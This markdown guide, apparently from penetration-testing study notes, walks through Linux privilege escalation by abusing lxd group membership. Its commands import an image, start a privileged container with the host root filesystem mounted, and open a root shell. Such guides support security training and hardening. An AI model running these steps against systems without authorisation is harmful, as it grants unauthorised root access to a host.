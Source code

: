 # Linux Privilege Escalation
`The Guide`

- [Service-based Privilege Escalation]()
  - [Linux Containers](#linux-containers---lxc)

## Linux Containers - LXC
Confirming that the user is a part of lxc group.
```bash
container-user@nix02:~$ id
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
> **Overview:** From here on, there are now several ways in which we can exploit LXC/LXD. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves. Such templates often do not have passwords, especially if they are uncomplicated test environments.
```bash
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```
`Importing the container as an image.`
```bash
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```
> Initiating the image and configuring it by specifying the security.privileged flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.
```bash
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
> Starting the congtainer and logging into it.
```bash
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~#
```
